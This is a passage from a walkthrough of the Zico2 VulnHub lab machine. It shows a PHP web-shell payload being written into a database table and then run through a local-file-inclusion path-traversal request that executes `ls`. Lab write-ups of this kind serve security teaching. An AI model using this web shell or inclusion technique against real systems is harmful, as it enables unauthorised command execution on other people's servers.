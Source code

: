 ![7.png](/assets/images/posts/zico-2-vulnhub-walkthrough/7.png)

2.Create a table with 1 field e.g pwn and write php code `<?php echo system($_REQUEST ["cmd"]); ?>` into it.

![10.png](/assets/images/posts/zico-2-vulnhub-walkthrough/10.png)

Cool now that we have our table created and we know we've got LFI, possibly code execution we go to `/view.php?page=../../usr/databases/rs.php&cmd=ls`
![11.png](/assets/images/posts/zico-2-vulnhub-walkthrough/11.png)


[1]: https://www.vulnhub.com/entry/zico2-1,210/
[2]: https://twitter.com/@rafasantos5
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator